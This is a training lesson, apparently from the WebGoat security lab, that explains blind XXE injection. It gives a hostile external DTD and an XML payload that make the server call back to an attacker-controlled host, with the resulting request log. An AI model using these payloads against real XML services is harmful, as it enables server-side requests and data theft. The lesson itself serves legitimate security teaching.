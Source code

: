 
== Blind XXE

In some cases you will see no output because although your attack might have worked the field is not reflected in the output of page.
Or the resource you are trying to read contains illegal XML character which causes the parser to fail.
Let's start with an example, in this case we reference an external DTD which we control on our own server.

As an attacker you have WebWolf under your control (*this can be any server under your control.*), you can for example
use this server to ping it using `http://localhost:8081/ping?text=HelloWorld

How do we use this endpoint to verify whether we can perform XXE?

We can again use WebWolf to host a file called `attack.dtd`, create this file with the following contents:

[source]
----
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY ping SYSTEM 'http://localhost:8081/ping?text=HelloWorld'>
----

Now submit the form change the xml using to:

[source]
----
<?xml version="1.0"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://localhost:8081/WebWolf/files/attack.dtd">
%remote;
]>
<comment>
  <text>test&ping;</text>
</comment>
----

Now in WebWolf browse to 'Incoming requests' and you will see:

[source]
----
{
  "method" : "GET",
  "path" : "/ping",
  "headers" : {
    "request" : {
      "user-agent" : "Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0",
    },
  },
  "parameters" : {
    "test" : [ "HelloWorld" ],
  },
  "timeTaken" : "1"
}
----

So with the XXE we are able to ping our own server which means XXE injection is possible. So with the XXE injection
we are basically able to reach the same effect as we did in the beginning with the curl command.

